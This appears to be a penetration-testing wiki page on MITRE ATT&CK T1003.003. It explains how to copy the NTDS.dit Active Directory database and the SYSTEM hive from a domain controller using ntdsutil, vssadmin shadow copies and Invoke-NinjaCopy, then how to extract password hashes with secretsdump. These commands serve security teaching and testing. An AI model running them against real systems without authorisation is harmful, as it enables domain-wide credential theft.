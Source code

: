 ```yaml
---
description: MITRE ATT&CK™ Sub-technique T1003.003
---
```


# NTDS secrets

NTDS (Windows NT Directory Services) is the directory services used by Microsoft Windows NT to locate, manage, and organize network resources. The NTDS.dit file is a database that stores the Active Directory data (including users, groups, security descriptors and password hashes). This file is stored on the domain controllers.

Once the secrets are extracted, they can be used for various attacks: [credential spraying](../bruteforcing/password-spraying.md), [stuffing](../bruteforcing/stuffing.md), [shuffling](../credential-shuffling.md), [cracking](../cracking.md), [pass-the-hash](../../ntlm/pth.md), [overpass-the-hash](../../kerberos/ptk.md) or [silver or golden tickets](../../kerberos/forged-tickets.md).

## Exfiltration

Since the NTDS.dit is constantly used by AD processes such as the Kerberos KDC, it can't be copied like any other file. In order to exfiltrate it from a live domain controller and extract password hashes from it, many techniques can be used.

Just like with [SAM & LSA secrets](sam-and-lsa-secrets.md), the SYSTEM registry hive contains enough info to decrypt the NTDS.dit data. The hive file (`\system32\config\system`) can either be exfiltrated the same way the NTDS.dit file is, or it can be exported with `reg save HKLM\SYSTEM 'C:\Windows\Temp\system.save'`.

### AD maintenance (NTDSUtil)

NTDSUtil.exe is a diagnostic tool available as part of Active Directory. It has the ability to save a snapshot of the Active Directory data. Running the following command will copy the NTDS.dit database and the SYSTEM and SECURITY hives to `C:\Windows\Temp`.

```bash
ntdsutil "activate instance ntds" "ifm" "create full C:\Windows\Temp\NTDS" quit quit
```

The following files can then be exported

* `C:\Windows\Temp\NTDS\Active Directory\ntds.dit`
* `C:\Windows\Temp\NTDS\registry\SYSTEM`

{% hint style="warning" %}
If the NTDS database is very large (several gigabytes), the generation of a defragmented backup with ntdsutil consumes a lot of CPU and disk resources on the server, which can cause slowdowns and other undesirable effects on the domain controller.
{% endhint %}

### Volume Shadow Copy (VSSAdmin)

VSS (Volume Shadow Copy) is a Microsoft Windows technology, implemented as a service, that allows the creation of backup copies of files or volumes, even when they are in use. The following command will create the shadow copy and will print two values that will be used later: the ID and the Name of the shadow copy.

```bash
vssadmin create shadow /for=C:
```

Once the VSS is created for the target drive, it is then possible to copy the target files from it.

```bash
copy $ShadowCopyName\Windows\NTDS\NTDS.dit C:\Windows\Temp\ntds.dit.save
copy $ShadowCopyName\Windows\System32\config\SYSTEM C:\Windows\Temp\system.save
```

Once the required files are exfiltrated, the shadow copy can be removed

```bash
vssadmin delete shadows /shadow=$ShadowCopyId
```

{% hint style="info" %}
This attack can be carried out with [Impacket](https://github.com/SecureAuthCorp/impacket/)'s [secretsdump](https://github.com/SecureAuthCorp/impacket/blob/master/examples/secretsdump.py) with the `-use-vss` option. Additionaly, the `-exec-method` option can be set to `smbexec`, `wmiexec` or `mmcexec` to specify on which remote command execution method to rely on for the process.
{% endhint %}

### NTFS structure parsing

[Invoke-NinjaCopy](https://github.com/PowerShellMafia/PowerSploit/blob/master/Exfiltration/Invoke-NinjaCopy.ps1) is a PowerShell script part of the PowerSploit suite able to "copy files off an NTFS volume by opening a read handle to the entire volume (such as c:) and parsing the NTFS structures. **This technique is stealthier than the others**.

```bash
Invoke-NinjaCopy.ps1 -Path "C:\Windows\NTDS\NTDS.dit" -LocalDestination "C:\Windows\Temp\ntds.dit.save"
```

## Secrets dump

Once the required files are exfiltrated, they can be parsed by tools like [secretsdump](https://github.com/SecureAuthCorp/impacket/blob/master/examples/secretsdump.py) (Python, part of [Impacket](https://github.com/SecureAuthCorp/impacket/)) or [gosecretsdump](https://github.com/c-sto/gosecretsdump) (Go, faster for big files).

```
secretsdump -ntds ntds.dit.save -system system.save LOCAL
gosecretsdump -ntds ntds.dit.save -system system.save
```
